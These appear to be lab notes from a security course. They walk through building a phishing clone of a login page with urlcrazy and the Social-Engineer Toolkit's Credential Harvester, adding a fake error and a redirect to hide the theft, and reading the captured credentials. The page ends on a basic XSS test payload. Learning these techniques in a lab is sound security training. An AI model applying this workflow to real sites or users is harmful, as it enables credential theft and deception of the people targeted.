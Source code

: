 #### Create a Similar Targets Domain with URLCRAZY
```bash
urlcrazy <target URL>
```

#### Cloning with The Social-Engineer Toolkit 
```bash
setoolkit
```

in shell:
```bash
cd /usr/share/set/config; 
cp set_config set_config.bkp
edit set_config > APACHE_DIRECTORY=/var/www/cloned.test
edit HARVESTER_LOG=/var/www/cloned.test/
```

in SET:
```bash
1 - Social-Engineer Attacks
2 - Website Attack Vectors
3 - Credential Harvester Attack Method
2 - Site Cloner
# <in real scenarios we need to configure an external IP address, in this case well skip>
# <enter the URL to clone>
```

> test in browser the cloned site

```bash
cd /var/www/cloned.test/
edit index.html
add in responseBody > ("An error has occurred, Please Retry!");
add setTimeout(function(){document.location.href="<the original URL of the target>";},2000);
clean other lines that are not useful to the code
```

```bash
mv post.php login.php 
# because the javascript want a login.php page

insert login:password in the test cloned site, it should redirect to the original after the try

go to /var/www/cloned.test/
cat harvester file 

# it should show the login:password captured
```

## Lab - 11 Levels to Bypass XSS


### 1 - normal
```js
<script>alert("l33t")</script>
```

